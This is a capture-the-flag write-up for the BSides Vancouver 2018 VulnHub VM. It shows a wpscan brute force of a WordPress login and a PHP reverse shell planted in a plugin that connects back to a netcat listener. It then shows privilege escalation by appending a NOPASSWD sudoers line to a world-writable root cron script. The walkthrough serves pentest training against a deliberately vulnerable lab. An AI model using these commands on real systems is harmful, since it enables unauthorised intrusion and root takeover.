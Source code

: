 ```yaml
---
title: "CTF Write Up : BSides Vancouver 2018 Workshop"
description: "BSides Vancouver 2018 CTF Challenge from vulnhub.com"
layout: post
categories: CTF
---
```

Back again with another CTF write up. This boot2root VM was meant for a workshop style 
introduction to penetration testing techniques, methodologies, common pitfalls and 
tools at a conference in Vancouver. The VulnHub.com page can be found [here](https://www.vulnhub.com/entry/bsides-vancouver-2018-workshop,231/) and the 
slides from the talk can be found [here](https://www.abatchy.com/projects).

### Information Gathering

nmap service version scan output: 
{% highlight terminal %}
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.5
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
{% endhighlight %}

Browsing to `ftp://target.ipaddress` reveals a `public` directory with a text file 
backup called `users.txt.bk` containing usernames:

{% highlight text %}
abatchy
john
mai
anne
doomguy
{% endhighlight %}

I've saved this list in a textfile called `b-side-users.txt` in my home directory

Here's the robots.txt from the webpage:
{% highlight text %}
User-agent: *
Disallow: /backup_wordpress
{% endhighlight %}

A hidden wordpress installation. There's our entry point. 

### Bruteforcing the WordPress login form with wpscan

According to a page from the blog, `john` is site admin. So we can use the username john with the 
`rockyou` wordlist to bruteforce the login form with `wpscan`. 

{% highlight terminal %}
wpscan --url 192.168.56.101/backup_wordpress/ --wordlist /usr/share/wordlists/rockyou.txt --username john
{% endhighlight %}

This will run for a while with an endless ETA due to the rockyou wordlist being huge. 

Strangely, wpscan threw out the following "error":
{% highlight terminal %}
  [!] ERROR: We received an unknown response for login: john and password: enigma
{% endhighlight %}

Even if it's an error, giving the credentials a try grants access to the 
`wp-admin` directory. 

### Getting a shell on the machine

After using those credentials to login, setting up a PHP reverse shell by pasting 
the contents of [this PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) into one of the plugins source code with the editor. 
I edited the "Hello Dolly" plugin, kept the plugin details like `Plugin Name:` and `Plugin URI:` as is 
(because without that information WordPress doesn't run the code), then pasted the 
pentestmonkey reverse shell source code. 

There are two variables to change: `$ip = '127.0.0.1';` should be changed to 
our Kali VM's IP and just because `$port = 1234` will be changed to `$port = 666;`

### Hail Satan, we're in

All that's left to do with WordPress, is enable the plugin _after_ setting up the 
netcat listener. 

Listening for the connection with netcat: 
{% highlight terminal %}

root@kali:~# nc -l -p 666
Linux bsides2018 3.11.0-15-generic #25~precise1-Ubuntu SMP Thu Jan 30 17:42:40 UTC 2014 i686 i686 i386 GNU/Linux
 11:13:41 up  7:51,  0 users,  load average: 0.00, 0.05, 1.38
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 

{% endhighlight %}

Spawning an interactive tty shell:
{% highlight terminal %}
python -c 'import pty; pty.spawn("bin/bash")'
www-data@bsides:/$ 
{% endhighlight %}

### Unpriviledged access 
Time to look into escalating www-data privileges or logging into another users account.
### Plaintext passwords in the WordPress installation?
Here's a snippet from the `wp-config.php` file: 
{% highlight php %}
// MySQL database username
define('DB_USER', 'john@localhost');

// MySQL database password
define('DB_PASSWORD', 'thiscannotbeit');
{% endhighlight %}

These could be the credentials for the user john on this machine and not just 
MySQL creds. Let's give it a shot: 
{% highlight terminal %}
www-data@bsides2018:/var/www/backup_wordpress$ su john
su john
Password: thiscannotbeit

su: Authentication failure
www-data@bsides2018:/var/www/backup_wordpress$
{% endhighlight %}
Ah.. what a shame. 
### Are there misconfigured cronjobs?
is there a script file that's world writeable being executed by the root user? 
{% highlight terminal %}
www-data@bsides2018:/etc$ cat crontab
cat crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    /usr/local/bin/cleanup
#
www-data@bsides2018:/etc$ 
{% endhighlight %}

The `/usr/local/bin/cleanup` script looks promising. 
Checking the file permissions: 

{% highlight terminal %}
www-data@bsides2018:/etc$ ls -asl /usr/local/bin/cleanup
ls -asl /usr/local/bin/cleanup
4 -rwxrwxrwx 1 root root 64 Mar  3  2018 /usr/local/bin/cleanup
{% endhighlight %}

It's world writeable and runs as root. The cleanup script before the changes:

{% highlight bash %}
#!/bin/bash

# Clean those damn logs!
rm -rf /var/log/apache2/*
{% endhighlight %}

### Adding www-data to the sudoers file

if you're a brave soul and wish to use `vi` over the netcat session be my guest. 
I'll just rewrite the script to add the www-data user to the sudoers file with echo:
{% highlight terminal %}
www-data@bsides2018:/usr/local/bin$ echo 'echo -e "#!/bin/sh\nwww-data ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers' >> cleanup
www-data@bsides2018:/usr/local/bin$ cat cleanup
cat cleanup
#!/bin/sh
echo "www-data ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers
www-data@bsides2018:/usr/local/bin$ 
{% endhighlight %}

At this point, I went to make a coffee. Sometimes it takes a while. 

### Getting root
{% highlight terminal %}
www-data@bsides2018:/etc$ sudo -i
sudo -i
root@bsides2018:~#
{% endhighlight %}
### Capturing the flag
`flag.txt` is in the root directory:

>Congratulations!
>
>If you can read this, that means you were able to obtain root permissions on this VM.
>You should be proud!
>
>There are multiple ways to gain access remotely, as well as for privilege escalation.
>Did you find them all?
>
>@abatchy17

Revisiting the VM at a later date and figuring out some of the other methods of remote access 
and privilege escalation sounds like a fun idea. 

### Until then, Happy Hacking!

